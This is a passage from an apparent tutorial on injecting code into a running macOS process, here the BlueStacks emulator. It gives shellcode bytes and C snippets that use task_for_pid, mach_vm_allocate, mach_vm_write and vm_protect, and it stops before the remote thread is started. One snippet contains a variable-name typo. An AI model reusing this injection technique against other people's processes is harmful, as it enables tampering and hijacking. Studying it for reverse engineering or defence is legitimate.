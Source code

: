 ```asm
"\x48\xc7\xc0\x13\x0d\x00\x00"    // mov        rax, 0xD13
"\xEB\xFE"                        // jmp        0x0
"\xC3"                            // ret
"\x90"				  // nop
```
#### Writing The Injector
Once this is done we need to write an injector to inject the code and data into the remote process, and then start a thread using task_for_pid, thread_create_running and the mach_vm_* family of functions.

First we will dynamically resolve the symbols we need and write a small function to patch the shellcode automatically.

```c
void find_and_replace_symbol(char* symbol, void* replace)
{
	uint8_t* ptr = &replace; 
	for(int i = 0; i < CODE_SIZE; i++) 
	{
		if(memcmp(symbol, injectedCode+i, 8) == 0)
		{
			for(int j = 0; j < 8; j++) 
			{ 
				injectedCode[i+j] = ptr[j];
			}
		}
	}
}
```
```c
void * libpthread_handle = dlopen("/usr/lib/system/libsystem_pthread.dylib", RTLD_LAZY);
void * libpthread_ptr = dlsym(libdpthread_handle, "pthread_create_from_mach_thread");
find_and_replace_symbol("__PTRD__", libpthread_ptr);
```

Then we will get a mach_port for the process by looking up the PID and calling task_for_pid()
```c
kern_return_t kr = task_for_pid(current_task(), bluestacksPID, &remoteTask);
```
Using that mach_port we will allocate data, code, and a stack page in the process using mach_vm_allocate(). 
```c
kr = mach_vm_allocate( remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);
kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );
kr = mach_vm_allocate( remoteTask, &remoteData64, DATA_SIZE, VM_FLAGS_ANYWHERE);
```
We will write to the data and code pages using mach_vm_write(). 
```c
kr = mach_vm_write(remoteTask, remoteCode64, (vm_address_t) injectedCode, CODE_SIZE);
kr = mach_vm_write(remoteTask, remoteData64, (vm_address_t) injectedData, DATA_SIZE);

```
We will change the permissions of these pages using vm_protect()
```c
kr  = vm_protect(remoteTask, remoteData64, DATA_SIZE, FALSE, VM_PROT_READ | VM_PROT_WRITE);
kr  = vm_protect(remoteTask, remoteCode64, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);
```
We will memset the remote thread state structure.
```c
x86_thread_state64_t remoteThreadState64;
thread_act_t remoteThread;
memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64));
```
We then setup the values needed to point to our injected code using the remoteThreadState64 structure.
```c
```